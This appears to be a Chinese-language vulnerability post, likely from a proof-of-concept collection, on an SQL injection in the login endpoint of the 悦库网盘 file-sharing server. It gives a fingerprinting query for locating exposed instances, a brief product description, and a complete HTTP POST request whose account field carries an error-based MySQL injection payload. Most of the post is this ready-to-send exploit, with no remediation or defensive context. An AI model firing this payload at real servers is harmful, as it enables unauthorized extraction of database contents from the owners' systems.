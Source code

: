 app="悦库-悦库网盘"

**一、漏洞简述**

悦库网盘官方版是一款界面简约直观、操作便捷轻松的网络共享工具。悦库网盘最新版功能强劲，基于悦库网盘服务端。通过悦库网盘客户端，用户可以登录任意一个局域网络内的服务器，下载或者上传文件，实现文件共享的功能，给大家带来了全新的网络共享感受。其接口/user/login/.html存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
POST /user/login/.html HTTP/1.1
Host: x.x.x.x
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Priority: u=1
Content-Length: 95

account=') AND GTID_SUBSET(CONCAT(0x7e,(SELECT (ELT(5597=5597,md5(123456)))),0x7e),5597)-- HZLK
```

